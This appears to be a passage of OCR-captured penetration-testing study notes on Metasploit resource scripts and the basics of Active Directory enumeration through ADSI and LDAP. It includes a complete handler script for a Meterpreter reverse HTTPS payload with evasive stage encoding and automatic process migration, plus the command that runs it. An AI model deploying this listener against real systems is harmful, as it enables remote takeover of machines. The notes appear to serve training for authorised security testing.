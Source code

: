 `set ExitOnSession false` to ensure that the listener keeps accepting new connections after a session is created.

Some of these scripts use the global datastore of Metasploit to set options such as RHOSTS.
- When we use `set` or `unset`, we define options in the context of a running module.
- We can also define values for options across all modules by setting global options. These options can be set with `setg` and unset with `unsetg`.

`listener.rc`

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j
```

```bash
sudo msfconsole -r listener.rc
```

There are resource scripts provided for port scanning, brute forcing, protocol enumerations, and so on.

```bash
ls -l /usr/share/metasploit-framework/scripts/resource
```

# Active Directory Introduction and Enumeration

If an attacker compromises a member of **Domain Admins** group (often referred to as domain administrators), they essentially gain complete control over the domain.

An AD instance can host more than one domain in a domain tree or multiple domain trees in a domain forest.

While there is a "Domain Admins" group for each domain in the forest, members of the **Enterprise Admins** group are granted full control over all the domains in the forest and have Administrator privilege on all DCs.

## Active Directory - Manual Enumeration

Use PowerShell and .NET classes to create a script that enumerates the domain.

Leverage an **Active Directory Services Interface (ADSI)** (a set of interfaces built on COM) as an LDAP provider. We need a specific LDAP **ADsPath** in order to communicate with the AD service:

`LDAP://HostName[:PortNumber][/DistinguishedName]`

- The **Hostname** can be a computer name, IP address or a domain name. E.g., `corp.com` domain. A domain may have multiple DCs. The DC that holds the most updated information is the **Primary Domain Controller (PDC)**. There can be only one PDC in a domain. => find the DC holding the **PdcRoleOwner** property.
